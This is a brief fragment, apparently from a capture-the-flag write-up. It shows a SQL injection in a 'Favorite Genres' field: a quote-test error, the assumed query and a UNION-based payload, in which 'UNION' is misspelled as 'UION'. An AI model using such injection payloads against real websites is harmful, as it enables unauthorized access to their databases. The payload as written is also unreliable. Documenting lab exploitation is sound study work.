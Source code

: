 ![image-20240326001716375](./Intentions.assets/image-20240326001716375.png)

**Error Occurring**

- Favorite Genres: `food,travel,nature,'`
- Empty page:

![image-20240326001656214](./Intentions.assets/image-20240326001656214.png)

Intended sql command and payload:

```sql
SELECT * from images WHERE genre IN ('genre1', 'genre2', 'genre3');
# sqli construct
SELECT * from images WHERE genre IN ('controllable_input');
# input: x') UION SELECT 1,2,3,4,5#
SELECT * from images WHERE genre IN ('x') UION SELECT 1,2,3,4,5#
```
